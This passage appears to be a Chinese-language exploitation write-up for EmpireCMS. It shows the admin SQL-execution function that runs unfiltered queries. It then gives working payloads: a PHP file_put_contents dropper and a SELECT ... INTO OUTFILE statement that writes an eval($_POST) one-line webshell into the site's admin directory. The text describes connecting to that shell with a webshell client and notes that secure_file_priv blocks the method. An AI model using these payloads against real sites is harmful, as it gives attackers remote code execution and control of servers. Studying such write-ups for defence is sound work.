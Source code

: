转到定义DoRunQuery，对$query进行处理。

对$sql参数只做了去除空格、以;分隔然后遍历,没有做别的限制和过滤,导致可以执行恶意的sql语句

```
`//运行SQL``function DoRunQuery($sql){` `global $empire;` `$sql=str_replace("\r","\n",$sql);` `$ret=array();` `$num=0;` `foreach(explode(";\n",trim($sql)) as $query)` `{` `$queries=explode("\n",trim($query));` `foreach($queries as $query)` `{` `$ret[$num].=$query[0]=='#'||$query[0].$query[1]=='--'?'':$query;` `}` `$num++;` `}` `unset($sql);` `foreach($ret as $query)` `{` `$query=trim($query);` `if($query)` `{` `$empire->query($query);` `}` `}``}`
```

### payload

用select ... into outfile语句写入php一句话木马，但是这里需要知道存放的绝对路径，这里可以使用一个phpinfo()用第一种方法传上去

```
<?php file_put_contents("getshell.php","<?php phpinfo();?>");?>
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

访问即可打出phpinfo

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

这里只是找到了php的绝对路径，还不是web所存储的路径，这时候查看源代码搜索DOCUMENT_ROOT查询网站所处的绝对路径

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

用select ... into outfile语句写入php一句话木马

```
select '<?php @eval($_POST[LEOGG])?>' into outfile 'C:/phpStudy/PHPTutorial/WWW/EmpireCMS/e/admin/Get.php'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

看到上传已经成功

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

访问一下是存在的

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

直接上蚁剑连接即可

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

### 实战中的一些坑

我们知道secure_file_priv这个参数在mysql的配置文件里起到的是能否写入的作用，当secure_file_priv = 为空，则可以写入sql语句到数据库，当secure_file_priv = NULL，则不可以往数据库里写sql语句，当secure_file_priv = /xxx，一个指定目录的时候，就只能往这个指定的目录里面写东西

这个地方很明显报错就是限制数据库的导入跟导出，这里很明显判断secure_file_priv = NULL，所以当实战中出现在这种情况下是不能够用这种方法的
